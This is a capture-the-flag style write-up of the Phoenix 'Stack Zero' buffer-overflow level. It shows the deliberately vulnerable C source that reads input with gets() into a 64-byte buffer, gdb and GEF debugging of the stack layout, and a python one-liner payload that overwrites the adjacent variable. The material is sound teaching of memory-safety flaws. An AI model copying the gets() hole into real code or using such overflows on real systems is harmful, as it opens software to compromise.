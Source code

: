 ## Stack Zero
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source Code
```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
> For those unfamiliar with the `volatile` keyword, it tells the compiler not to run optimizations on the integer `changeme`.
## Challenge
The aim is to change the contents of the changeme variable.

## Solution
### Dry Run
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
vi11ain
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```
As in the source-code,
1. Print banner with `puts()`
2. Receive user input to `locals.buffer` using `gets()`
3. Check `locals.changeme` and print output using `puts()` accordingly

### The Plan
Using `gets()` for user input is a dangerous practice,
> Never use gets().
> Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.
> -gets(3), man

We can leverage it for a buffer overflow, running over, and changing, the value of `locals.changeme`.

### Debugging
This level is very straight forward and does not require debugging, but we'll use `gdb` just to make sure we understand what happens.
```console
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-zero
```

I like to start by listing functions and putting a breakpoint in `main()`.
```console
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400408  _init
0x0000000000400430  gets@plt
0x0000000000400440  puts@plt
0x0000000000400450  exit@plt
0x0000000000400460  __libc_start_main@plt
0x0000000000400470  _start
0x0000000000400486  _start_c
0x00000000004004b0  deregister_tm_clones
0x00000000004004e0  register_tm_clones
0x0000000000400520  __do_global_dtors_aux
0x00000000004005b0  frame_dummy
0x00000000004005dd  main
0x0000000000400630  __do_global_ctors_aux
0x0000000000400672  _fini
(gdb) b main
Breakpoint 1 at 0x4005e1
```

Now we can run the executable.

![](/images/stack-zero/0.png)
Notice we approach the first call to `puts()`.

Add a breakpoint to after the call and continue until it.
```console
(gdb) b *main+25
Breakpoint 6 at 0x4005f6
```

![](/images/stack-zero/1.png)
1. `0` is written to the `dword` (4 bytes) pointed by `[rbp-0x10]`, on the stack, this is `locals.changeme`
2. The address of `[rbp-0x50]`, `locals.buffer`, is moved to the register `rdi` (by convention in x64, this register acts as the first integer/pointer parameter to a function)
3. `gets(locals.buffer)` is called
5. And finally, we can see the check for `[rbp-0x10]`, `locals.changeme != 0`.

Use `GEF`'s `hexdump` to see the value of our variables in the stack.

![](/images/stack-zero/2.png)

### Breaking it

So if we write more than 64 bytes (the size of `locals.buffer`) we will overwrite `locals.changeme` with a value of our choice.

We are not going to type 64 bytes by ourselves, this is what we have computers for,
```console
user@phoenix-amd64:~$ python3 -c "with open('exploit', 'wb') as f: f.write(b'a'*64 + b'\xDE\xAD\xBE\xEF')"
user@phoenix-amd64:~$ hexdump -C exploit
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000040  de ad be ef                                       |....|
00000044
```
This input will write 64 `a` chars to fill `locals.buffer`, and a special `dword` - `0xDEADBEEF` to `locals.changeme`.

Re-run the program, this time with our payload redirected to it's `stdin`.
But before we do so, clear the breakpoints and set a new one to after `gets(locals.buffer)`.
```console
(gdb) d breakpoints
(gdb) b *main+44
Breakpoint 7 at 0x400609
(gdb) run < /home/user/exploit
```

Now `hexdump` once again just to check our input worked as expected.

![](/images/stack-zero/3.png)

Continue (`c`) to let the program resume execution.
```console
(gdb) c
Continuing.
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 930) exited normally]
```

🥳
